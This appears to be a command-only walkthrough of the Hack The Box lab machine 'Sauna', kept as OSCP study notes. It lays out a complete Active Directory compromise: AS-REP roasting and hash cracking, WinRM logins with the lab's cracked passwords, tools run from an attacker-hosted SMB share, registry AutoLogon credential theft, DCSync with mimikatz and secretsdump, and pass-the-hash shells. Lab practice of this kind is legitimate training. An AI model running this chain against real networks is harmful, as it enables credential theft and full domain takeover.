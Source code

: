 ## 📌 Box Info
- **OS**: [Windows](Windows)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP.md)

## 🧰 Tools Used

- `nmap`
- `ldapsearch`
- `dig`
- `kerbrute`
- `GetNPUsers.py` (from Impacket)
- `hashcat`
- `evil-winrm`
- `smbserver.py` (Impacket)
- `winPEAS.exe`
- `BloodHound`, `SharpHound.exe`, `neo4j`
- `secretsdump.py` (Impacket)
- `mimikatz`
- `wmiexec.py`, `psexec.py` (Impacket)

---

## 📜 All Commands in Order

### 🔍 Recon

```bash
nmap -p- --min-rate 10000 10.10.10.175
nmap -p 53,80,88,135,139,389,445,464,593,3268,3269,5985 -sC -sV -oA scans/tcpscripts 10.10.10.175
```

### 🌐 [Web Enumeration](HTTP.md)

```bash
gobuster dir -u http://10.10.10.175/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o scans/gobuster-root -t 40
```

### 🖧 [SMB](SMB.md) Enumeration

```bash
smbmap -H 10.10.10.175
smbclient -N -L //10.10.10.175
```

### 📚 [LDAP](LDAP.md) Enumeration

```bash
ldapsearch -x -h 10.10.10.175 -s base namingcontexts
ldapsearch -x -h 10.10.10.175 -b 'DC=EGOTISTICAL-BANK,DC=LOCAL'
```

### 🌐 DNS Zone Transfer Attempt

```bash
dig axfr @10.10.10.175 sauna.htb
dig axfr @10.10.10.175 egotistical-bank.local
```

### 🔍 Kerberos User Brute-Force (User Enum)

```bash
kerbrute userenum -d EGOTISTICAL-BANK.LOCAL /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt --dc 10.10.10.175
```

### 🔐 AS-REP Roasting

```bash
GetNPUsers.py 'EGOTISTICAL-BANK.LOCAL/' -usersfile users.txt -format hashcat -outputfile hashes.aspreroast -dc-ip 10.10.10.175
```

### 🔓 Crack AS-REP Hash

```bash
hashcat -m 18200 hashes.aspreroast /usr/share/wordlists/rockyou.txt --force
```

### 🧠 Evil-WinRM Shell as fsmith

```bash
evil-winrm -i 10.10.10.175 -u fsmith -p 'Thestrokes23'
```

### 📤 SMB Share to Upload winPEAS

```bash
smbserver.py -username df -password df share . -smb2support
```

From WinRM:
```powershell
net use \\10.10.14.30\share /u:df df
cd \\10.10.14.30\share
.\winPEAS.exe cmd fast > sauna_winpeas_fast
```

### 🔐 Find AutoLogon Creds (WinRM)

```powershell
cd HKLM:\software\microsoft\windows nt\currentversion\winlogon
get-item -path .
```

or

```powershell
reg query "HKLM\software\microsoft\windows nt\currentversion\winlogon"
```

### 🧠 Evil-WinRM Shell as svc_loanmgr

```bash
evil-winrm -i 10.10.10.175 -u svc_loanmgr -p 'Moneymakestheworldgoround!'
```

### 🧠 BloodHound Collection

From WinRM:
```powershell
cd \\10.10.14.30\share
.\SharpHound.exe
```

### 🔓 DCSync with secretsdump

```bash
secretsdump.py 'svc_loanmgr:Moneymakestheworldgoround!@10.10.10.175'
```

### 🛠️ DCSync with mimikatz (WinRM)

```powershell
upload /opt/mimikatz/x64/mimikatz.exe
.\mimikatz 'lsadump::dcsync /domain:EGOTISTICAL-BANK.LOCAL /user:administrator' exit
```

### 🖥️ Shell as Administrator with wmiexec

```bash
wmiexec.py -hashes 'aad3b435b51404eeaad3b435b51404ee:d9485863c1e9e05851aa40cbb4ab9dff' -dc-ip 10.10.10.175 administrator@10.10.10.175
```

### 🖥️ Shell as SYSTEM with psexec

```bash
psexec.py -hashes 'aad3b435b51404eeaad3b435b51404ee:d9485863c1e9e05851aa40cbb4ab9dff' -dc-ip 10.10.10.175 administrator@10.10.10.175
```

### 🔑 Admin Shell via Evil-WinRM

```bash
evil-winrm -i 10.10.10.175 -u administrator -H d9485863c1e9e05851aa40cbb4ab9dff
```
